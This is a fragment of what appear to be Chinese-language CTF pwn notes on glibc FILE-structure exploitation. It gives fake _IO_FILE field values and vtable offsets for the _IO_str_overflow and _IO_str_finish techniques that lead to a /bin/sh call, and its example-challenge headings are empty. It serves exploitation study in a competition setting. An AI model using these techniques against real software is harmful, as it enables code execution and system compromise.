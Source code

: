 ```python
_flags = 0
_IO_write_ptr = 0x7fffffffffffffff
_IO_write_base = 0
_IO_buf_end = (binsh-100)/2   #如果binsh地址为奇数结尾，可以将地址+1
_IO_buf_base = 0
```

##### _IO_str_finish

```python
fp->_mode = 0
fp->_IO_write_ptr = 0xffffffff
fp->_IO_write_base = 0
fp->_IO_buf_base = binsh
fp->_flags2 = 0
fp->_mode = 0
vtable = _IO_str_jumps - 8 #因为本质上是通过调用伪造的overflow函数，即偏移成str_finish
```



#### 例题

##### Hctf2018 babyprintf_v2





##### 2018 ciscn echo

